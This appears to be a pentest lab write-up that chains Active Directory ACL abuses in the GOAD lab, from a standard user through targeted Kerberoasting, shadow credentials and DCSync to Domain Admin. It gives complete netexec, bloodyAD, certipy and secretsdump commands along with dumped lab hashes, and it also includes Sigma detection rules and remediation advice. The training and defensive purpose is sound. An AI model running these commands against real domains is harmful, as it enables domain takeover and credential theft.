

# SC-AD-004 — ACL Abuse Chain

## Classification

| Field | Value |
|-------|--------|
| **Scenario Code** | SC-AD-004 |
| **Name** | ACL Abuse Chain — ForceChangePassword → DCSync |
| **Target** | GOAD v3 — sevenkingdoms.local / KINGSLANDING (192.168.10.10) |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Severity** | 🔴 Critical |
| **CVSS 3.1** | 9.8 (AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-266 (Incorrect Privilege Assignment), CWE-284 (Improper Access Control) |
| **MITRE ATT&CK** | T1098 (Account Manipulation), T1484 (Domain Policy Modification), T1003.006 (DCSync), T1558.003 (Targeted Kerberoasting), T1556 (Shadow Credentials) |
| **Mayfly Reference** | Part 11 — ACL Abuse |
| **Date** | March 2026 |
| **Author** | hik3nR00t |

---

## Executive Summary

### For a recruiter

This scenario demonstrates manual exploitation of an **Active Directory ACL chain** made up of 8 misconfigured rights delegations, chained from a standard user account all the way to full compromise of the `sevenkingdoms.local` domain. The techniques used span 6 distinct ACL types (ForceChangePassword, GenericWrite, WriteDacl, AddSelf, WriteOwner, GenericAll), **Targeted Kerberoasting**, **Shadow Credentials** on a DC machine account, and **DCSync**. No software vulnerability is exploited — only legitimate AD features abused through excessive rights.

### For an ISO 27001 / NIS2 auditor

This scenario highlights critical non-conformities in identity and access governance controls:

- **Violation of the least-privilege principle**: standard user accounts hold ACL rights on other AD objects (ForceChangePassword, WriteDacl, GenericAll) with no documented business justification or periodic review.
- **Lack of privilege segregation**: the rights chain between AD objects (users → groups → DC machine accounts) is not audited, allowing indirect privilege escalation without detection.
- **Misconfigured Kerberos delegation**: the GenericAll right on the `KINGSLANDING$` machine account allows injection of Shadow Credentials and extraction of the DC's NT hash without ADCS.
- **No monitoring of ACL changes**: no alert is configured on Event IDs 4670 (DACL modification), 5136 (AD attribute modification), 4662 (DCSync).

Under **NIS2 Art.21**, the absence of privileged access management measures and supervision of AD object modifications constitutes a failure of the information systems security policy. An incident of this type requires **notification to the competent authority within 24 hours** (Art.23).

### For a CISO

Immediate impact: full compromise of the `sevenkingdoms.local` domain — Administrator NT hash (`c66d72021a2d4744409969a581a1705e`) and krbtgt (`b5fc63f9f630a7899d329401734b1c27`) extracted via DCSync. Possession of the krbtgt hash enables the creation of **Golden Tickets**, providing undetectable, unlimited-duration persistence. Estimated remediation cost: **€150,000 — €400,000** (forensics, AD rebuild, secret rotation, training).

---

## Network Diagram



---

## ACL Kill Chain — sevenkingdoms.local

```mermaid
graph LR
    A["tywin.lannister<br/>powerkingftw135<br/>Entry point"] -->|"ForceChangePassword"| B["jaime.lannister<br/>P@ssw0rd123!"]
    B -->|"GenericWrite<br/>Targeted Kerberoast"| C["joffrey.baratheon<br/>1killerlion"]
    C -->|"WriteDacl → GenericAll"| D["tyron.lannister<br/>P@ssw0rd123!"]
    D -->|"AddSelf"| E["SMALL COUNCIL"]
    E -->|"AddMember"| F["DRAGONSTONE"]
    F -->|"WriteOwner → GenericAll"| G["KINGSGUARD"]
    G -->|"GenericAll → Password Reset"| H["stannis.baratheon<br/>P@ssw0rd123!"]
    H -->|"Shadow Credentials"| I["KINGSLANDING$<br/>NT: 6b02f735..."]
    I -->|"DCSync"| J["Administrator<br/>NT: c66d7202...<br/>🔴 Pwn3d!"]

    style A fill:#f39c12,color:#fff
    style J fill:#e74c3c,color:#fff
```



---

## Recon & BloodHound

### Network discovery

```bash
netexec smb 192.168.10.0/24 --gen-relay-list /tmp/targets.txt
```

**Result:**

| Host | IP | Signing | SMBv1 | Relay Possible |
|------|-----|---------|-------|----------------|
| KINGSLANDING | 192.168.10.10 | True | False | ❌ |
| WINTERFELL | 192.168.10.11 | True | False | ❌ |
| MEEREEN | 192.168.10.12 | True | True | ❌ |
| CASTELBLACK | 192.168.10.22 | False | False | ✅ |
| BRAAVOS | 192.168.10.23 | False | True | ✅ |

### BloodHound collection

```bash
netexec ldap 192.168.10.11 -u 'jon.snow' -p 'iknownothing' -d north.sevenkingdoms.local --bloodhound --collection All --dns-server 192.168.10.11
```

```bash
netexec ldap 192.168.10.10 -u 'tywin.lannister' -p 'powerkingftw135' -d sevenkingdoms.local --bloodhound --collection ACL --dns-server 192.168.10.10
```

```bash
netexec ldap 192.168.10.12 -u 'missandei' -p 'fr3edom' -d essos.local --bloodhound --collection ACL --dns-server 192.168.10.12
```

### ACL chain identified — BloodHound Pathfinding

**Source:** `TYWIN.LANNISTER@SEVENKINGDOMS.LOCAL`
**Target:** `DOMAIN ADMINS@SEVENKINGDOMS.LOCAL`

```
TYWIN.LANNISTER
  → [ForceChangePassword] → JAIME.LANNISTER
    → [GenericWrite]      → JOFFREY.BARATHEON
      → [WriteDacl]       → TYRON.LANNISTER
        → [AddSelf]       → SMALL COUNCIL
          → [AddMember]   → DRAGONSTONE
            → [WriteOwner]→ KINGSGUARD
              → [GenericAll] → STANNIS.BARATHEON
                → [GenericAll] → KINGSLANDING$ (DC)
                  → [DCSync]  → Administrator (Pwn3d!)
```

---

## Exploitation — Full Kill Chain

### Step 1 — ForceChangePassword: tywin → jaime.lannister

**Principle:** `ForceChangePassword` allows changing an account's password without knowing the current one. No suspicious log — only Event ID 4723.

```bash
net rpc password jaime.lannister 'P@ssw0rd123!' -U 'sevenkingdoms.local/tywin.lannister%powerkingftw135' -S 192.168.10.10
```

```bash
netexec smb 192.168.10.10 -u 'jaime.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
SMB  192.168.10.10  445  KINGSLANDING  [+] sevenkingdoms.local\jaime.lannister:P@ssw0rd123!
```

---

### Step 2 — GenericWrite: jaime → joffrey.baratheon (Targeted Kerberoasting)

**Principle:** `GenericWrite` allows writing arbitrary attributes on the target object. We add a temporary SPN to trigger Kerberoasting, then remove the SPN (automatic cleanup).

```bash
python3 /opt/lwp-scripts/targetedKerberoast.py -u 'jaime.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --dc-ip 192.168.10.10 -o /tmp/joffrey_tgs.hash
```

```bash
hashcat -m 13100 /tmp/joffrey_tgs.hash /usr/share/wordlists/rockyou.txt --force
```

```bash
netexec smb 192.168.10.10 -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\joffrey.baratheon:1killerlion
```

> **Note:** `targetedKerberoast.py` automatically handles adding and removing the temporary SPN.

---

### Step 3 — WriteDacl: joffrey → tyron.lannister (GenericAll)

**Principle:** `WriteDacl` allows modifying the target object's DACL. We grant ourselves `GenericAll` on `tyron.lannister`, giving full control over this account.

```bash
~/.local/bin/bloodyAD -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local --host 192.168.10.10 add genericAll tyron.lannister 'joffrey.baratheon'
```

```
[+] joffrey.baratheon has now GenericAll on tyron.lannister
```

---

### Step 4 — GenericAll: Reset tyron.lannister's password

```bash
~/.local/bin/bloodyAD -u 'joffrey.baratheon' -p '1killerlion' -d sevenkingdoms.local --host 192.168.10.10 set password tyron.lannister 'P@ssw0rd123!'
```

```bash
netexec smb 192.168.10.10 -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\tyron.lannister:P@ssw0rd123!
```

---

### Step 5 — AddSelf: tyron → SMALL COUNCIL

**Principle:** `AddSelf` allows a user to add themselves to a group without being an administrator of that group.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'SMALL COUNCIL' 'tyron.lannister'
```

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 get object tyron.lannister --attr memberOf
```

```
memberOf: CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local; CN=Lannister,OU=Westerlands,DC=sevenkingdoms,DC=local
```

---

### Step 6 — AddMember: SMALL COUNCIL → DRAGONSTONE

**Principle:** As a member of `SMALL COUNCIL`, `tyron.lannister` inherits the `AddMember` right on the `DRAGONSTONE` group.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'DragonStone' 'tyron.lannister'
```

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 get object tyron.lannister --attr memberOf
```

```
memberOf: CN=DragonStone,...; CN=Small Council,...; CN=Lannister,...
```

---

### Step 7 — WriteOwner: DRAGONSTONE → KINGSGUARD

**Principle:** `WriteOwner` allows changing the owner of an AD object. By taking ownership of `KINGSGUARD`, we can then grant ourselves `GenericAll` and join the group.

```bash
# Take ownership
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 set owner 'KingsGuard' 'tyron.lannister'
```

```bash
# Grant ourselves GenericAll
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add genericAll 'KingsGuard' 'tyron.lannister'
```

```bash
# Join the group
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add groupMember 'KingsGuard' 'tyron.lannister'
```

```
[+] Old owner replaced by tyron.lannister on KingsGuard
[+] tyron.lannister has now GenericAll on KingsGuard
[+] tyron.lannister added to KingsGuard
```

---

### Step 8 — GenericAll: KINGSGUARD → stannis.baratheon

**Principle:** `KINGSGUARD` has `GenericAll` on `stannis.baratheon`. We reset his password.

```bash
~/.local/bin/bloodyAD -u 'tyron.lannister' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 set password stannis.baratheon 'P@ssw0rd123!'
```

```bash
netexec smb 192.168.10.10 -u 'stannis.baratheon' -p 'P@ssw0rd123!' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\stannis.baratheon:P@ssw0rd123!
```

---

### Step 9 — Shadow Credentials: stannis → KINGSLANDING$ (DC)

**Principle:** `stannis.baratheon` has `GenericAll` on `KINGSLANDING$`. We inject an RSA key into the `msDS-KeyCredentialLink` attribute of the machine account via Shadow Credentials, then obtain the DC's NT hash via PKINIT.

```bash
~/.local/bin/bloodyAD -u 'stannis.baratheon' -p 'P@ssw0rd123!' -d sevenkingdoms.local --host 192.168.10.10 add shadowCredentials 'KINGSLANDING$'
```

```bash
certipy auth -pfx 'KINGSLANDING$_hp.pfx' -dc-ip 192.168.10.10 -domain sevenkingdoms.local -username 'KINGSLANDING$'
```

```
[*] Got TGT
[*] Got hash for 'kingslanding$@sevenkingdoms.local': aad3b435b51404eeaad3b435b51404ee:6b02f735fc6063bd82d3a696c59cdc06
```

> **Note:** PKINIT requires the DC to have an ADCS CA. Without ADCS, the machine account's NT hash is used directly for DCSync.

---

### Step 10 — DCSync: Full compromise

```bash
secretsdump.py 'sevenkingdoms.local/KINGSLANDING$@192.168.10.10' -hashes 'aad3b435b51404eeaad3b435b51404ee:6b02f735fc6063bd82d3a696c59cdc06' -just-dc-ntlm
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5fc63f9f630a7899d329401734b1c27:::
```

```bash
netexec smb 192.168.10.10 -u 'Administrator' -H 'c66d72021a2d4744409969a581a1705e' -d sevenkingdoms.local
```

```
[+] sevenkingdoms.local\Administrator:c66d72021a2d4744409969a581a1705e (Pwn3d!)
```

---

## Compromised Credentials

| Account | Password / NT Hash | Method |
|--------|----------------------|---------|
| jaime.lannister | P@ssw0rd123! | ForceChangePassword |
| joffrey.baratheon | 1killerlion | Targeted Kerberoasting |
| tyron.lannister | P@ssw0rd123! | GenericAll → Password Reset |
| stannis.baratheon | P@ssw0rd123! | GenericAll → Password Reset |
| KINGSLANDING$ | 6b02f735fc6063bd82d3a696c59cdc06 | Shadow Credentials |
| Administrator | c66d72021a2d4744409969a581a1705e | DCSync |
| krbtgt | b5fc63f9f630a7899d329401734b1c27 | DCSync |

---

## Alternative Techniques (not exploited)

These techniques cover the same steps of the chain but with different vectors — documented here for complete coverage of Mayfly Part 11.

### Alt-1 — GenericWrite: direct Shadow Credentials on joffrey (Step 2)

Instead of Targeted Kerberoasting, `GenericWrite` on `joffrey.baratheon` can be exploited via Shadow Credentials if ADCS is active on the domain. Stealthier: no SPN modification in the logs.

```bash
certipy shadow auto -u 'jaime.lannister@sevenkingdoms.local' -p 'P@ssw0rd123!' -account 'joffrey.baratheon' -dc-ip 192.168.10.10
```

Expected result: TGT + NT hash of `joffrey.baratheon` with no cracking required.

> **Why not used here:** `sevenkingdoms.local` has no ADCS CA — PKINIT impossible. Targeted Kerberoasting was the only viable vector.

---

### Alt-2 — GenericWrite: profilePath abuse → NTLMv2 capture (Step 2)

Another abuse of `GenericWrite`: modify `joffrey.baratheon`'s `profilePath` attribute to point to a controlled UNC share. On joffrey's next logon, we capture his NTLMv2 hash.

```python
import ldap3
dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
server = ldap3.Server('192.168.10.10')
conn = ldap3.Connection(server, user="sevenkingdoms.local\\jaime.lannister", password="P@ssw0rd123!", authentication=ldap3.NTLM)
conn.bind()
conn.modify(dn, {'profilePath': [(ldap3.MODIFY_REPLACE, '\\\\192.168.50.X\\share')]})
print(conn.result)
conn.unbind()
```

```bash
# Capture the NTLMv2 hash with Responder
sudo responder -I eth0 -wv
```

> **Why not used here:** Requires an active logon from joffrey — GOAD has bots (robb.stark, eddard.stark) but not joffrey. Technique covered in SC-AD-003 (NTLM Relay).

---

### Alt-3 — WriteDacl + Shadow Credentials on tyron (Step 3)

After obtaining `FullControl` on `tyron.lannister` via WriteDacl, Shadow Credentials can be used instead of a password reset — stealthier (no Event ID 4723/4724).

```bash
# Read current permissions
dacledit.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local/joffrey.baratheon:1killerlion'

# Write FullControl
dacledit.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local/joffrey.baratheon:1killerlion'

# Shadow Credentials (ADCS required)
certipy shadow auto -u 'joffrey.baratheon@sevenkingdoms.local' -p '1killerlion' -account 'tyron.lannister' -dc-ip 192.168.10.10
```

> **Why not used here:** No ADCS CA on `sevenkingdoms.local`. The `bloodyAD add genericAll` + password reset method was used instead.

---

### Alt-4 — GenericAll on KINGSLANDING$: RBCD (Step 9)

Alternative to Shadow Credentials: `Resource-Based Constrained Delegation (RBCD)`. We create an attacker machine account, grant it delegation rights on `KINGSLANDING$`, then use S4U2Self + S4U2Proxy to obtain an Administrator TGS.

```bash
# Create an attacker machine account
addcomputer.py 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!' -dc-ip 192.168.10.10 -computer-name 'ATTACKER$' -computer-pass 'P@ssw0rd123!'

# Configure RBCD: ATTACKER$ can delegate to KINGSLANDING$
rbcd.py -action write -delegate-from 'ATTACKER$' -delegate-to 'KINGSLANDING$' 'sevenkingdoms.local/stannis.baratheon:P@ssw0rd123!' -dc-ip 192.168.10.10

# S4U2Self + S4U2Proxy → Administrator TGS
getST.py -spn 'cifs/KINGSLANDING.sevenkingdoms.local' 'sevenkingdoms.local/ATTACKER$:P@ssw0rd123!' -impersonate administrator -dc-ip 192.168.10.10

# Use the TGS
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass KINGSLANDING.sevenkingdoms.local -just-dc-ntlm
```

> **Why not used here:** Requires the right to add machine accounts to the domain (`ms-DS-MachineAccountQuota > 0`). Shadow Credentials is more direct and does not require a machine account. RBCD is documented in SC-AD-007 (Kerberos Delegation).

---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|-----|-------------|
| Account Manipulation | T1098 | ACL rights modification, group membership additions |
| Domain Policy Modification | T1484 | AD object DACL modification via WriteDacl |
| OS Credential Dumping — DCSync | T1003.006 | NTDS.DIT extraction via DC machine account |
| Steal or Forge Kerberos Tickets | T1558.003 | Targeted Kerberoasting of joffrey.baratheon |
| Modify Authentication Process | T1556 | Shadow Credentials on KINGSLANDING$ |
| Account Discovery | T1087.002 | BloodHound full ACL enumeration |
| Valid Accounts | T1078.002 | Use of compromised domain accounts |

---

## Business Impact — MediaTech Groupe SA

### Summary
By chaining together **poorly controlled ACL rights** (ForceChangePassword → GenericWrite → WriteDACL → Shadow Credentials → DCSync), the attacker goes from an ordinary user account to **Domain Admin**, without exploiting a single CVE — only permissions accumulated over the years. At this level, they hold **the keys to the kingdom**: they can halt publication, encrypt the IS (ransomware), and access everything — including editorial communications and sources.

### Severity: 🔴 CRITICAL *(complete domain compromise)*

### Financial Impact

| Item | Estimate | Assumption |
|---|---|---|
| Editorial production halt | €400k – €1.5M | Ransomware or emergency lockdown: 3 to 7 days without normal publication. The cost is **the lost editions** plus getting back online. |
| AD rebuild / restoration | €200k – €500k | Rebuilding a directory compromised at the root (double krbtgt rotation, trust restoration, forensics). |
| Massive GDPR exposure | €300k – €2M | Access to all databases (subscribers, HR, finance). 72h CNIL notification. |
| Major incident response | €150k – €400k | Full DFIR, crisis unit, legal support. |
| **Realistic total** | **~€1M – €4.4M** | Range for a major incident at a national daily newspaper. |

> **Newsroom reality**: Domain Admin on a daily newspaper's IS is the absolute worst-case scenario — the day **the paper doesn't come out** and no one knows whether exchanges with sources have leaked. The damage isn't just financial, it's **existential for the title**.

### Regulatory
- **GDPR Art. 32 + 33/34** — major compromise, CNIL and data subject notification.
- **NIS2 Art. 21 + 23** — significant incident, mandatory notification.
- **ISO 27001 A.8.2** (privileged access), **A.5.15** (access control), **A.8.3** (access restriction).

### COMEX Decision
- **Fund an AD Tiering + PAW project** (dedicated administration workstations) and an **exhaustive ACL review** — this is the root of the problem, not a one-off fix.
- Approve an **AD recovery plan** (tested krbtgt/DC rebuild procedure) and **cyber insurance** sized for this scenario.

## Detection

### Windows Event IDs to monitor

| Event ID | Description | Criticality |
|----------|-------------|-----------|
| 4723 / 4724 | Password change (ForceChangePassword) | 🟠 High |
| 4670 | Object permissions modification | 🔴 Critical |
| 5136 | AD object attribute modification | 🔴 Critical |
| 4662 | Operation performed on an AD object (DCSync) | 🔴 Critical |
| 4728 / 4732 / 4756 | Member added to a group | 🟠 High |

### Sigma Rule — ForceChangePassword

```yaml
title: Force Password Change via RPC
id: 3f07b1b2-9c4d-4b1a-b2e4-1a2c3d4e5f67
status: stable
description: Detects a forced password change via RPC without knowledge of the current password
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID:
      - 4723
      - 4724
    SubjectUserName|not|endswith: '$'
  condition: selection
falsepositives:
  - Legitimate helpdesk reset operations
level: high
tags:
  - attack.credential_access
  - attack.t1098
```

### Sigma Rule — DCSync

```yaml
title: DCSync Attack Detection
id: a2b3c4d5-e6f7-8901-a2b3-c4d5e6f78901
status: stable
description: Detects a DCSync attack via DS replication rights
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
      - '89e95b76-444d-4c62-991a-0facbeda640c'
  filter:
    SubjectUserName|endswith: '$'
  condition: selection and not filter
falsepositives:
  - Legitimate domain controllers performing replication
level: critical
tags:
  - attack.credential_access
  - attack.t1003.006
```

### Sigma Rule — Shadow Credentials

```yaml
title: Shadow Credentials Injection — msDS-KeyCredentialLink
id: b3c4d5e6-f789-0123-b3c4-d5e6f7890123
status: stable
description: Detects modification of the msDS-KeyCredentialLink attribute characteristic of Shadow Credentials
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'msDS-KeyCredentialLink'
  condition: selection
falsepositives:
  - Legitimate Windows Hello for Business enrollment
level: critical
tags:
  - attack.credential_access
  - attack.t1556
```

---

## Recommendations

### Immediate actions (D+1)

| Priority | Action | Complexity |
|----------|--------|------------|
| 🔴 CRITICAL | Audit and remove excessive ACLs via BloodHound — focus on ForceChangePassword, GenericAll, WriteDacl | Medium |
| 🔴 CRITICAL | Reset passwords for all compromised accounts in the chain | Low |
| 🔴 CRITICAL | Reset the `krbtgt` password **twice** to invalidate Golden Tickets | Low |
| 🟠 HIGH | Enable `Protected Users` on sensitive accounts (blocks Kerberos delegation) | Low |
| 🟠 HIGH | Enable SMB Signing on CASTELBLACK and BRAAVOS | Low |

### Short-term actions (D+30)

| Priority | Action | Complexity |
|----------|--------|------------|
| 🟠 HIGH | Implement the least-privilege principle — full review of AD ACLs | High |
| 🟠 HIGH | Deploy Microsoft Defender for Identity — Shadow Credentials, Kerberoasting detection | Medium |
| 🟠 HIGH | Enable auditing of ACL modifications (Event ID 4670, 5136) | Low |
| 🟡 MEDIUM | Implement the AD Tiering Model (Tier 0 / Tier 1 / Tier 2) | High |
| 🟡 MEDIUM | Deploy gMSA (Group Managed Service Accounts) for service accounts | Medium |

---

## COMEX Decision Required

> ⚠️ **COMEX ACTION — Within 48 hours**

The level of compromise observed (Domain Admin + krbtgt) requires an executive decision on the following points:

- **CNIL notification** (GDPR Art.33) — 72h deadline from detection
- **NIS2 competent authority notification** (Art.23) — 24h deadline
- **BCP activation** — impacted systems to be isolated
- **Active Directory rebuild budget** — estimated €150,000 — €400,000
- **Crisis communication** — internal and external
- **Forensics firm engagement** — full investigation and legal report

---

---

### Appendix — pyGPOAbuse GPO Abuse (not provisioned)

pyGPOAbuse exploits write rights on a GPO to add a scheduled task executed on all linked machines. No compromised user in the GOAD lab has write rights on GPOs — permissions are reserved for Domain Admins, Enterprise Admins, and Group Policy Creator Owners. The technique is not exploitable without re-provisioning the GOAD vulnerabilities.

---

*HikenRoot Forge — SC-AD-004 — hik3nR00t — March 2026*
